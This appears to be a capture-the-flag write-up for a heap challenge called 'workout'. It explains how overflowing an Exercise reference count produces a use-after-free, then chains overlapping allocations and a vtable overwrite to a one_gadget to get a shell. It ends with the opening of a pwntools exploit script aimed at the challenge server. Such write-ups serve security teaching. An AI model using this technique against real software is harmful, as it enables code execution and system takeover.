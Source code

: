 ```c
    create_success_result();
    wrap_success_result(a1);
  }
  // ... truncated ...
}
```

1. Adding an `Exercise` to `Routine` increases the `Exercise->refcount` by 1
2. Swapping the `Exercise` with itself in `Routine` removes the pointer from the `Routine`
3. Repeat Step 1 **256 times** to overflow `Exercise->refcount` back to 1.
4. Delete the `Exercise` from the `Routine` which calls `destruct_exercise` to decrement `Exercise->refcount` to 0 which results in it getting free-ed.
5. Since we did not delete the `Exercise`, we still hold a pointer to the free-ed `Exercise` object and have a UAF.

### the exploit

After we have the UAF, we can allocate another `Routine` to re-use the free-ed memory. Now we have an overlapping `Exercise` and `Routine`.

We can **delete** and re-**allocate** the exercise to overwrite the `Routine->exercises[]` pointers.

This gives us an arbitrary read and arbitrary free. We can create fake chunks to be free-ed and overwrite the `vtable` entry to point to a `one_gadget` to pop a shell.

### exploit script

```py
from pwn import *
from tqdm import tqdm

elf = context.binary = ELF("workout")
libc = elf.libc
# if args.REMOTE:
# p = remote("localhost", 9999)
p = remote("cddc2025-challs-nlb-579269aea83cde66.elb.ap-southeast-1.amazonaws.com", 9999)
# else:
# 	p = elf.process()

sla = lambda a, b: p.sendlineafter(a, b)
sa = lambda a, b: p.sendafter(a, b)
sl = lambda a: p.sendline(a)
s = lambda a: p.send(a)
rl = lambda: p.recvline()
ru = lambda a: p.recvuntil(a)

def new_exercise(name):
    sla(b"Menu>>", b"1")
    sla(b"Name>>", name)

def list_exercise():
    sla(b"Menu>>", b"2")

def delete_exercise(id):
    sla(b"Menu>>", b"3")
    sla(b"id>>", str(id).encode())

def new_routine(id):
    sla(b"Menu>>", b"4")
    sla(b"0)>>", str(id).encode())

def list_routine():
    sla(b"Menu>>", b"5")

```